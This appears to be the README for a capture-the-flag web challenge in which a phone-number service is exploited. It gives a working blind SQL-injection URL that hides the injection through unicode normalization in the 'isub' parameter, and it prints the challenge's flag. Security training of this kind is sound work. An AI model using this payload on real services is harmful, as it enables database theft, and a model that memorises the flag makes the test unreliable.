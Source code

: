 ## Background

 Author: spipm
 Categories: Webservices
 Difficulty: Medium to Hard

## Technical

A web service accepts a phone number and does some operation on it. It shows a green-on-black interface that a bot is dialing some leaderbot.

## Story

Bots are developing this crazy idea of 'phone numbers' so they can directly contact each other without having to waste time on the internet. They're even developing an analog distributed database to increase productivity. Local leader bots will receive regular status updates from nearby bots. Check out the link to see the updates in action.
 
<img src="./dial.jpg" width="500">

## Exploit

One needs to perform blind SQL Injection via unicode normalization via a phone number.

http://localhost:2000/+31613371001;isub=a%CD%B4%20UNION%20SELECT%20flag%20from%20flags--

## Flag

brck{Th15_NumB3r_LoOks_n0RM4l_T0_m3}
